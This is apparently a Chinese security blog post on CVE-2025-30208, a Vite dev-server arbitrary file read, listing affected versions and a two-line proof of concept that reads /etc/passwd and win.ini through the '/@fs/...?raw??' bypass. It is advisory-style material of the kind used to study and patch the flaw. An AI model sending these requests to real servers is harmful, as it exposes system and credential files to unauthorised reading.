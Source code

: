 #  CVE-2025-30208｜Vite任意文件读取漏洞（POC）   
alicy  信安百科   2025-03-29 18:01  
  
**0x00 前言**  
  
  
Vite 是一个现代化的前端构建工具，旨在通过利用现代浏览器的原生 ES 模块支持，提供快速的开发体验。  
广泛应用于Vue.js等项目的开发中。在其开发服务器模式下，Vite提供了@fs  
机制，用于访问服务允许范围内的文件。  
  
  
Vite 由两部分组成：  
  
1、开发服务器：基于原生 ES 模块，提供超快的热更新。  
  
2、构建命令：使用 Rollup 打包代码，生成适用于生产环境的优化静态资源。  
  
  
  
**0x01 漏洞描述**  
  
  
Vite 的@fs  
机制本用于限制对非白名单目录的访问，但其在 URL 解析时未正确处理?raw??  
或?import&raw??  
等查询参数，  
导致安全检查被绕过。  
  
  
例如，攻击者可构造类似/@fs/etc/passwd?raw??  
的请求，  
导致攻击者可绕过 server.fs.allow  
 限制，直接读取任意文件内容。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2025-30208  
  
  
  
**0x03 影响版本**  
  
****```
6.2.0 <= vite < 6.2.3
6.1.0 <= vite < 6.1.2
6.0.0 <= vite < 6.0.12
5.0.0 <= vite < 5.4.15
vite < 4.5.10
```  
  
****  
**0x04 漏洞详情**  
  
****  
**POC：**  
```
Linux：
 
"http://x.x.x.x/@fs/etc/passwd?raw??"

```  
```
Windows：

"http://x.x.x.x/@fs/C:/Windows/win.ini?raw??"

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urE2ZiaS6ic0GYpT5AhQP8obny6CJaSQFZjPKNw1oArqB2lUiadv2kczYuu6HhvEEu96UuuXpibq3pQBA/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 参考链接**  
  
  
https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w  
  
  
  
  
推荐阅读：  
  
  
[CVE-2024-34351｜Next.js框架存在SSRF漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485273&idx=3&sn=58059df00bf4a82082ffbaa3b0628176&scene=21#wechat_redirect)  
  
  
  
[CVE-2025-25064｜Zimbra存在SQL注入漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485812&idx=3&sn=59502076ba73b38962af8c4347429207&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-38819｜Spring Framework路径遍历漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485772&idx=2&sn=705ff60136147bf24cbe72947f7ac5c2&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  

